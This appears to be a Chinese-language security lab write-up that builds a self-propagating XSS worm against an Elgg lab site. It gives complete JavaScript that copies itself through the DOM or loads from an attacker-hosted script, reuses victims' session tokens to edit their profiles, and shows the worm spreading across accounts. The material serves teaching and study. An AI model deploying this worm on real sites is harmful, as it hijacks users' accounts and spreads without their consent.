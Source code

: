 # 实现自我传播

XSS蠕虫，当访问Samy的主页时，不仅他们自己的主页会被更改，他们的主页也会携带samy的javascript代码的拷贝。  

为了实现这一点，JavaScript恶意代码需要得到一个与自身相同的拷贝，叫自我复制。

!!! 自我复制

    一种方法是从外部获取一份自身程序的拷贝，如程序存在文件中。  
    另一种叫quine，不从外面得到任何输入，完全靠自身程序输出一份一样的拷贝。  

!!! JavaScript中实现自我传播

    1、Dom方法。从dom树中获取一份自身拷贝  
    2、链接方法。JavaScript代码可以通过链接被引入网页中，可以用script标签src属性实现。  

## Dom实现自我传播蠕虫

当一个页面加载完毕时，浏览器会把页面的内容存放在一个树的数据结构中，并提供API让JavaScript访问和
修改树中的数据。这个数据结构叫DOM。

这样需要给含有JavaScript的结点取一个名字，这样可以用document.getElementById()来找到这个结点。  
下面的代码可以实现自我复制:  
```javascript
<script id="worm">
    var strCode = document.getElementById("worm").innerHTML;
    alert(strCode);
</script>
```

!!! innerHTML

    innerHTML只能提供结点的内部内容，不包括周围的script标签。只需加上初始标签<script id="worm">,
    和结束标签</script>，就可以构成一个完全相同的恶意代码

通过以上技术，修改之前的代码：
```javascript
<script type="text/javascript" id="worm">
window.onload = function() {
  var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
  var jsCode = document.getElementById("worm").innerHTML;
  var tailTag = "</" + "script>";
  
  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
  var desc = "&description=Samy is my hero" + wormCode;
  desc += "&accesslevel[description]=2";
  
  var name = "&name=" + elgg.session.user.name;
  var guid = "&guid=" + elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  
  var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
  var content = token + ts + name + desc + guid;
  if (elgg.session.user.guid != 47){
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      Ajax.send(content);
  }
}
</script>
```

!!! Note

    上面代码中tailTag变量之所以这样写，是为了骗过火狐浏览器，否则浏览器会认为这个字符串是js代码
    的结束标签，导致余下的代码被忽略。

测试过程：  
1、在samy主页加入上述代码。  
2、登陆boby账户，访问samy主页，boby主页被篡改  
![boby页面](../img/xss-bobypage.png)
3、登陆charlie账户，访问boby主页，charlie主页也被篡改  
![charlie页面](../img/xss-charliepage.png)

## 链接方法实现自我传播蠕虫

为了把JavaScript代码包含到一个网页中，可以把整段代码放到页面中，或把代码放到一个外部的url中并把它链接到页面上。

### 构造恶意代码

```bash
vi /var/www/CSRF/Attacker/xssworm.js
```

```javascript
window.onload = function() {
  var headerTag = "<script id=\"worm\" type=\"text/javascript\"";
  var jsCode = "src=\"http://www.csrflabattacker.com/xssworm.js\">";
  var tailTag = "</" + "script>";
  
  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
  var desc = "&description=yudan is my hero" + wormCode;
  desc += "&accesslevel[description]=2";
  
  var name = "&name=" + elgg.session.user.name;
  var guid = "&guid=" + elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  
  var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
  var content = token + ts + name + desc + guid;
  if (elgg.session.user.guid != 47){
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      Ajax.send(content);
  }
}
```
注意，为了测试方便，把samy改成了yudan

### samy主页中放链接代码

```html
<script type="text/javascript" id="worm" src="http://www.csrflabattacker.com/xssworm.js"></script>
```

### 测试

alice登陆，访问samy主页，主页被修改  
![alice主页被修改](../img/xss-link1.png)

再用boby登陆，访问alice，发现主页也被修改，攻击成功。
![boby主页被修改](../img/xss-link2.png)
